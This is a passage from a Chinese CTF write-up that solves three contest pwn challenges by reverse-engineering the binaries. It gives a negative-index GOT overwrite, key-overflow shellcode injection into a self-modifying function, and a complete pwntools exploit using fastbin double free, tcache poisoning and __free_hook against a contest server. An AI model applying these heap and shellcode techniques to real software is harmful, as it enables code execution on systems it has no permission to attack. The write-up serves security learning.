##### &emsp;&emsp;&emsp;```show(8)```时就把 libc 泄露了<br>
##### &emsp;&emsp;&emsp;现在再来找具体的漏洞<br>&emsp;&emsp;&emsp;先关注一下堆信息的存储方式，也就是```1. Create a new page of notes```
```c
        case 1:
          printf("Enter index: ");
          v4 = readint();
          printf("Enter length: ");
          v8 = readint();
          *((_DWORD *)&heap + 4 * v4) = v8;
          *((_QWORD *)&heap + 2 * v4 + 1) = malloc((int)v8);
          printf("Enter content: ");
          readstr(*((_QWORD *)&heap + 2 * v4 + 1), v8);
          break;
```
##### &emsp;&emsp;&emsp;```v8```和```malloc((int)v8)```那两行就表明了堆信息的存储方式。对于这种东西，我的意见是，能看就看，不能看直接动调，如下。
```sh
# 申请一个0x10大小的堆，index = 0
pwndbg> x/10gx 0x4040C0
0x4040c0:       0x0000000000000010      0x00000000004052a0
0x4040d0:       0x0000000000000000      0x0000000000000000
0x4040e0:       0x0000000000000000      0x0000000000000000
0x4040f0:       0x0000000000000000      0x0000000000000000
0x404100:       0x0000000000000000      0x0000000000000000
```
##### &emsp;&emsp;&emsp;从动调直接看出，首先输入一个```index```，确认从heap(0x4040c0)开始的偏移，每16字节作为一个结构体，前8个存堆大小，后8个是堆的指针。
##### &emsp;&emsp;&emsp;接下来是```2. View notes```，就是打印
```c
case 2:
          printf("Enter index: ");
          v5 = readint();
          puts(*((const char **)&heap + 2 * v5 + 1));
          break;
```
##### &emsp;&emsp;&emsp;用的```puts```，所以才能把```libc + offset```带出来，如果严格按堆大小输出，上面leak libc就没戏了。
##### &emsp;&emsp;&emsp;看看```3. Delete notes```
```c
case 3:
          printf("Enter index: ");
          v6 = readint();
          free(*((void **)&heap + 2 * v6 + 1));
          *((_QWORD *)&heap + 2 * v6 + 1) = 0LL;
          *((_DWORD *)&heap + 4 * v6) = 0;
          break;
```
##### &emsp;&emsp;&emsp;没有UAF，下一个
##### &emsp;&emsp;&emsp;
```c
      if ( v3 != 4 )
        break;
      printf("Enter index: ");
      v7 = readint();
      printf("Enter content: ");
      readstr(*((_QWORD *)&heap + 2 * v7 + 1), *((unsigned int *)&heap + 4 * v7));
```
##### &emsp;&emsp;&emsp;也没啥好说的。<br>&emsp;&emsp;&emsp;那整这么多没用的那么漏洞在哪里呢？对于这道题的漏洞，可能需要堆题方面的一些经验。<br>&emsp;&emsp;&emsp;一般的堆题，抛开堆信息的存储可能不同之外，都有一些固定的规律。第一，堆的索引是系统分配，程序查询可用索引进行分配；第二，堆的索引有一定限制，不能过大，也就是堆的申请数量有限制；第三，在分配或者释放堆块时，首先对存放堆信息的位置检查，确认目标位置，避免造成指针重复覆盖或者```free()```释放无效空间。<br>&emsp;&emsp;&emsp;所以再看这道题，这些特征完全没有，这也是为什么整体的逻辑实现较短。当我们回头再看```case 1```时，发现```v4```和```v8```是有符号整型，尤其```v4```，由于堆信息的寻址不是数组访问，```v4```在寻址时不会被转化为整型，所以当```v4```为一个负数时，反而会反向去寻址，加上对该位置的赋值，实际上这是一个任意写的漏洞，不过只能每两个字长中写一个字长，即使这样也已经足够了。<br>&emsp;&emsp;&emsp;由于GOT表可写，并且已经leak libc，所以考虑使用负索引向上修改GOT表。要修改的GOT表需要满足两个条件。首先，GOT表项位于```0x40xxx0```到```0x40xxx8```，这个位置被用于存放```v8```的值；其次，由于```v8```是```int```，只有低4位可以覆盖，需要更高的位置已经被填写，所以我们需要一个已经重定位过的GOT表项。考察上述两点，于是选择```atoi()```的GOT表。<br>&emsp;&emsp;&emsp;改完之后，在再发送```'/bin/sh\x00'```即可。
```python
v8_4 = system_addr & 0xffffffff
info("low 4 bytes", v8_4)
add({简单计算偏移得到的负索引}, v8_4, b'a') # 更改后4bytes
io.sendline(b'/bin/sh\x00')
io.interactive()
```
### 🎮 Super Mario Code Revenge(😡Hard)
```
⚠ 题目描述
Sh1no 出了一个简单的堆题。因为这个题太简单了所以 Sh1no 决定发挥他在 Re 里学到的高超技术——代码自解密壳来让你没法轻易逆向漏洞函数。

看不到了吧嘿嘿，快使用你高超的 Fuzz 技巧来试试吧！

nc 152.136.11.155 10038

💡 Hint
直接动态调试就可以看到加密部分的代码

💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}
免责声明：flag 由 @Timlzh 提供

🔨 暴打出题人
@Shino
```

##### &emsp;&emsp;&emsp;最先上的一道hard题，属于是比较温油的hard，但还是hard。<br>&emsp;&emsp;&emsp;首先，根据提示，这个题使用了一个反逆向技术，叫做```自修改代码```。
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rcx
  int i; // [rsp+4h] [rbp-Ch]
  void *addr; // [rsp+8h] [rbp-8h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("================================================");
  puts("|          SUPER MARIO CODE REVENGE!!!         |");
  puts("|  https://ctf-wiki.org/reverse/obfuscate/smc/ |");
  puts("================================================");
  puts("Enter ur name to enter the Mario World!:");
  __isoc99_scanf("%s", name);
  addr = (void *)((unsigned __int64)marioGame & -getpagesize());
  v3 = getpagesize();
  if ( mprotect(addr, v3, 7) >= 0 )  // <---------- 从这里开始
  {
    for ( i = 0; i <= 513; ++i )
      *((_BYTE *)marioGame + i) ^= key[i % 10];
    puts_banner();         // <--------- 一个打印界面的函数
    marioGame(0);       // <---------- 调用解密之后的函数
    return 0;
  }
  else
  {
    puts("Mario Dies. Plz Try again or contact @Shino.");
    return 0;
  }
}
```
###### &emsp;&emsp;&emsp;甚至把攻略贴在文件里，哭死。
##### &emsp;&emsp;&emsp;可以看到，自修改代码就是在运行时解密代码，由于IDA是静态调试，所以无法呈现正确的代码。首先把加密代码段提权为rwx，原本的.text没有写权限，然后，从这个函数开始，每十字节位一轮，查表异或，直到全部解密完成。表是'Pwn5Shino!'这十个字节<br>
##### &emsp;&emsp;&emsp;看一眼```marioGame```
```c
.text:0000000000401236 ; __unwind {
.text:0000000000401236                 mov     ds:3C8BE02006CF7078h, eax
.text:000000000040123F                 imul    edx, ebx, 2EBC469Bh
.text:0000000000401245                 mov     ah, 0Dh
.text:0000000000401247                 db      26h
.text:0000000000401247                 in      al, 25h
.text:000000000040124A                 jnz     short loc_4012AB
.text:000000000040124C                 outsb
.text:000000000040124D                 xor     eax, 2BE02053h
.text:0000000000401252                 xchg    edx, [rax]
.text:0000000000401254                 nop
.text:0000000000401254 ; ---------------------------------------------------------------------------
.text:0000000000401255                 db 3Fh, 0E3h, 30h
.text:0000000000401258 ; ---------------------------------------------------------------------------
.text:0000000000401258                 jmp     qword ptr [rbp+69h]
.text:0000000000401258 ; ---------------------------------------------------------------------------
.text:000000000040125B                 db 6Eh, 27h, 0A8h, 97h, 9Fh
.text:0000000000401260                 dq 946AE32197ACCB02h, 3381AFDA7D6E775Dh, 65E630E33FAFDE91h
.text:0000000000401278                 dq 0CB209F97A8276E69h, 775D996AE32197ACh, 0DE915181AFDA7D6Eh
.text:0000000000401290                 dq 6E6965E230E33FAFh, 6853356ECF97A827h, 70E33FAFDE913581h
.text:00000000004012A8                 db 0B3h, 20h, 0E0h
.text:00000000004012AB ; ---------------------------------------------------------------------------
.text:00000000004012AB
.text:00000000004012AB loc_4012AB:                             ; CODE XREF: .text:000000000040124A↑j
```
##### &emsp;&emsp;&emsp;可以看到IDA虽然做出尝试，但显然加密是有效的。<br>&emsp;&emsp;&emsp;考虑使用先使用IDApython，对这一段内容解密。注意先```import idc```

##### &emsp;&emsp;&emsp;下面是弄完后的效果。

##### &emsp;&emsp;&emsp;可以看到，识别了，但也没完全识别，和wiki上不一样。<br>&emsp;&emsp;&emsp;这是因为x86有庞大的指令集，这个函数实现逻辑略有复杂，所以IDA识别出现歧义也比较正常，而且IDA也没有检查反汇编结果是否合理。这时候就需要做一个手动引导。<br>
##### &emsp;&emsp;&emsp;先打开动态调试，动态调试中可以看到正确汇编代码。

##### &emsp;&emsp;&emsp;对于这种错误识别的汇编指令，我们右键它，点击```Undefine```，可以将其还原为单字节。

##### &emsp;&emsp;&emsp;右键然后```Assemble...```，可以调出```Patch```窗口。注意只有汇编指令处才有这个选项，所有指令打开的窗口都是同一个。<br>&emsp;&emsp;&emsp;此时我们从动态调试中复制一条指令，比如首个未能正确解析的指令```mov    DWORD PTR [rbp-0x24],edi```，将它复制到```Assembly```窗口栏中。绿色代表从这个位置开始匹配指令，粉色代表匹配到了指令的位置。

##### &emsp;&emsp;&emsp;然后，回车并退出这个窗口，右键刚刚解放出来的单字节，点击```Code```，就可以看到还原成功了。

##### &emsp;&emsp;&emsp;你可能发现，一条指令正确识别了，别的又错了，这很正常。重复上述操作，需要注意，有时候不需要手动汇编匹配右键就有```Code```按，也就是说，不用一条指令一条指令地去匹配。<br> &emsp;&emsp;&emsp;弄完了之后记得和动态调试的结果对比一下。<br>
#####  &emsp;&emsp;&emsp;可能是由于我IDA的问题，无法按照wiki上的方法反编译，只能根据Shino的提示先跳过这一段。

##### &emsp;&emsp;&emsp;不过这个题做完了之后，还是找到了反编译的方法，挺玄学，仅供参考。<br>&emsp;&emsp;&emsp;当确认反汇编无误之后，先使用```Apply patches to```修改二进制文件，退出IDA，删掉原先的.i64（或者干脆不打包），然后再IDA打开修改后的二进制文件，就可以反编译了😅(<br>
##### &emsp;&emsp;&emsp;回到正题，这个漏洞确实不在加密函数里。注意到``` __isoc99_scanf("%s", name);```，这个东西可以理解为和```gets(name)```一样的东西，也就是存在溢出。这里的```name```是一个全局变量。
```c
.data:0000000000404070                 public name
.data:0000000000404070 name            db 'DefaultUserName',0  ; DATA XREF: main+93↑o
.data:0000000000404080                 public key
.data:0000000000404080 key             db 'Pwn5Shino!',0       ; DATA XREF: main+14C↑o
.data:0000000000404080 _data           ends
.data:0000000000404080
```
##### &emsp;&emsp;&emsp;```name```正好在密钥的上面，也就是说可以通过溢出修改密钥。<br>&emsp;&emsp;&emsp;然后思考修改密钥有什么用，之前说到，密钥与密文对应异或，就可以得到原文，然后程序执行这一段的原文。所以说控制了密钥，就控制了解密出来的指令，然后执行我们控制的指令。<br>&emsp;&emsp;&emsp;那么这就好办了，由数学可知，使用密文去异或我们想要的指令，即可得到篡改后的密钥，下面是一个demo，注意返回的是字符串不是bytes<br>
```python
def genkey(sh, crypto):
    key = ''
    length = len(sh)
    for i in range(length):
        temp = chr(sh[i] ^ crypto[i])
        key += temp
    return key
# 原文里的前十位
crypto10 = b'\xa3\x78\x70\xcf\x06\x20\xe0\x8b\x3c\x69'
```
##### &emsp;&emsp;&emsp;想法美好，但现实残酷，由于本来的密钥只有10位，原文索引模10后查表异或，所以无论密钥如何篡改，可以自由支配的指令最多只有10位。<br>&emsp;&emsp;&emsp; 显然10位的shellcode不足以```getshell()```，所以根据经验想办法用这10字节弄一个```read```的系统调用，然而调用一次```read```至少需要12字节，如果想要更多的读入，指令长度也会增长。
```python
>>> len(asm(shellcraft.read(0, 'rsp', 0x1)))
12
```
##### &emsp;&emsp;&emsp;所以这个shellcode还是得手写。手写shellcode主要关注的是```rax```、```rdi```、```rsi```、```rdx```，这四个寄存器，分别是系统调用号、文件流、读入的地址和读入字符数量。<br>
##### &emsp;&emsp;&emsp;断点下载进入函数前(0x4015db)，动态调试一下，
```sh
 RAX  0
 RBX  0
 RCX  0x7ffff7e97887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0
 RSI  1
 R8   0x467
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64 
 R10  0x7ffff7d8b2e0 ◂— 0xf0022000056ec
 R11  0x246
 R12  0x7fffffffdb18 —▸ 0x7fffffffddd1 ◂— '/home/pwn/worktable/cnss2024/pwn11'
 R13  0x401458 (main) ◂— endbr64  /* 0xe5894855fa1e0ff3 */
 R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64  /* 0x2ebd3d80fa1e0ff3 */
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffda00 ◂— 1
 RSP  0x7fffffffd9f0 ◂— 0x20200001000
 RIP  0x4015db (main+387) ◂— call 0x401236 /* 0xb8fffffc56e8 */
```
##### &emsp;&emsp;&emsp;可以看到，```rax```和```rdi```恰好都是0（```read```的调用号以及```stdin```），这两个就不用管了。主要弄剩下两个。<br>
##### &emsp;&emsp;&emsp;demo1
```python
shellcode1 = '''
    mov rsi, 0x401240 ; 0x401236 + 10
    mov rdx, 0x50
    syscall
'''
>>> len(asm(shellcode1))
16
```
##### &emsp;&emsp;&emsp;显然demo1肯定不行了，这是因为syscall是固定2字节，而```mov```实际上是一个相当长的指令，在构造短shellcode是应尽量避免使用，尽量使用```pop```和```push```指令，尤其在置空寄存器时，可以使用```xor rax, rax```
##### &emsp;&emsp;&emsp;demo2
```python
shellcode2 = '''
    push 0x401240
    pop rsi
    push 0x50
    pop rdx
    syscall
'''
>>> len(asm(shellcode2))
11
```
##### &emsp;&emsp;&emsp;玛德正好多一个<br>&emsp;&emsp;&emsp;仔细分析一下，```rsi```要求必须是一定的值，所以它的```pop```和```push```省不了，但```rdx```不一样，只要是一个大数就行。注意到，此时由于```call```指令，```rsp```指向的是返回地址（0x4015E0），已经足够大，所以就把它的```push```给省掉。
##### &emsp;&emsp;&emsp;demo3
```python
shellcode3 = '''
    pop rdx
    push 0x401240
    pop rsi
    syscall
'''
>>> len(asm(shellcode3))
9
```
##### &emsp;&emsp;&emsp;甚至还少一字节😜，结尾加一个```nop```占位，这样前面算密钥的就不用再改了。
### ⚡ FFFFree!
```
⚠ 题目描述
魔法铁匠铺的独特笔记
无视空间，使用特殊链表相互连接

据传只需携带扉页
即可全数悉知笔记内容

匠人吟诵咒文，隐藏秘密的页码
后人倾力研究
至暴怒、至癫狂、至忘我、至死亡

还我自由！他们绝望地喊道……

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Astesia
```
##### &emsp;&emsp;&emsp;介绍一下本题的数据结构。本题有关堆的结构是一个链表，链表分为控制信息和数据信息。首先控制信息有一个固定有一个head node，然后随着链表的添加接着添加其他的node<br>
##### &emsp;&emsp;&emsp;大概是下面一个结构，某个结点free之后，idx就会被设置为```0x7fffffff```表示不可读，但本身还留在链表中；在show时，先从stdin中读取一个idx，然后用```*next```依次计数找到链表中第idx个结点，```puts()```出```*text```的内容。一个这样的控制结点大小固定为```0x18```，也就是一个chunk固定为```0x20```<br>&emsp;&emsp;&emsp;然后是```*text```指向的数据域，也是指定大小范围```0~0x70```，也就是这个题和```unsorted bin```关系不大了。<br>&emsp;&emsp;&emsp;
```c
struct node{
    long long idx; // 有没有符号不太记得了
    struct node *next;
    _BYTE *text;
}
```
##### &emsp;&emsp;&emsp;glibc版本2.31,所以没办法打最原始的```tcache double free``` 以及 ```poisoning```，因为从Ubuntu20.04（也就是glibc2.31之前某个版本，好像2.28）就有对```tcache double free```的检查。<br>&emsp;&emsp;&emsp;针对这个```double free```的检查，可以通过UAF修改```tcache chunk```中的```key```值，或者通过堆溢出改```tcache chunk```的大小绕过检查，但显然这个题都没有。<br>&emsp;&emsp;&emsp;那么还有一种不那么常见的方法，虽然glibc2.31有针对```tcache double free```的检查，但是没有对于```fastbin```的```double free```的检查。虽然这么说，但实际上还是有一些防范措施。首先```chunk```接入```fastbin```时会检查```fastbin```栈顶的```chunk```，如果一样就会被检查出来会报```fastbin的double free```；其次，```chunk```接入```fastbin时```会在```tcache bin```中检查，如果发现存在一样则会报```tcache bin的double free```。<br>&emsp;&emsp;&emsp;由于此题没用```calloc()```，所以```malloc()```时会先从```tcache bin```中取出```chunk```，然后把```fastbin```中的一个```chunk```挪到```tcache bin```中，这个挪的过程中不存在```double free```的检查，所以这个题还是可以打一个```tcache poisoning```以及```__free_hook```。<br>&emsp;&emsp;&emsp;首先考虑泄露一下libc，这里选择```tcache poisoning```以及```堆风水```技巧将某个控制信息的chunk劫持到```free()```的got表项上，然后show出来即可。<br>&emsp;&emsp;&emsp;注意到，想修改```*text```，还需要先覆盖到```*next```，为了让链表正确地顺序寻址，这个题还需要泄露```heap base```。<br>
##### &emsp;&emsp;&emsp;得到libc基址之后，就是愉快地```tcache poisoning```以及```__free_hook```了。<br>
##### &emsp;&emsp;&emsp;完整exp
```python
from pwn import *
from os import system
def debug(cmd=''):
    system("gdb --pi={}".format(io.pid))
    pause()
se      = lambda data           : io.send(data)
sl      = lambda data           : io.sendline(data)
sa      = lambda endstr, data   : io.sendafter(endstr, data)
sla     = lambda endstr, data   : io.sendlineafter(endstr, data)
rc      = lambda num=4096       : io.recv(num)
rl      = lambda                : io.recvline()
ru      = lambda endstr         : io.recvuntil(endstr)
info    = lambda tag, addr         : io.info(tag + ': {:#x}'.format(addr))
uu32    = lambda data               :u32(data.ljust(4, b'\0'))
uu64    = lambda data               :u64(data.ljust(8, b'\0'))

context.log_level = 'debug'
# io = process("./pwn")
io = remote("152.136.11.155",30871)
elf = ELF("./pwn")
libc = ELF("./libc-2.31.so")

def add(size, content):
    sla(b'0.Exit.\n>', b'1')
    sla(b'Size?\n>', str(size))
    if context != b'':  
        sa(b'Content?\n>', content)
    sleep(0.01)

def show(idx): # from 1 to ...
    sla(b'0.Exit.\n>', b'2')
    sla(b'ord?\n>', str(idx))
    sleep(0.05)

def free(idx):
    sla(b'0.Exit.\n>', b'3')
    sla(b'ord?\n>', str(idx))
    sleep(0.05)

for i in range(9):
    add(0x10, b'a') # 1~9
for i in range(1,8):
    free(i)
free(8)
add(0x10, b'a') # 10
show(10)
ru(b'10:')
heap_base = uu64(rc(4)) - 0x361
info("heap_base", heap_base)
offset1 = 10

# leak libc
for i in range(12):
    add(0x10, b'd') # 1~11
for i in range(1 + offset1, 8 + offset1):
    free(i) # fill tcache

free(8 + offset1)
free(9 + offset1)
free(10 + offset1)
free(8 + offset1) # fastbin 0x20: 8->10->9->8
free(11 + offset1) # to deplete tcache

for i in range(4):
    add(0x10, b'b') # 12~15 to deplete

add(0x10, b'c') # 17
add(0x18, p64(17 + offset1) + p64(heap_base + 0x6a0) + p64(elf.got['free'])) # 18
show(17 + offset1)
sleep(0.1)
ru(b':')
free_ = uu64(rc(6))
info("_free", free_)

# system
libc_base = free_ - libc.sym["free"]
system_ = libc_base + libc.sym["system"]
__free_hook = libc_base + libc.sym["__free_hook"]

offset2 = 28

# tcache poisioning
for i in range(10):
    add(0x40, b'a')

for i in range(1, 8):
    free(i + offset2) # tcache

free(8 + offset2)
free(9 + offset2)
free(8 + offset2)

for i in range(7):
    add(0x40, b'a') # offset2 + 10 
add(0x40, p64(__free_hook))
add(0x40, b'a')
add(0x40, b'aa')
add(0x40, p64(system_))

info("__free_hook", __free_hook)
info("system", system_)
add(0x30, b'/bin/sh\x00')
free(0x32)
io.interactive()
```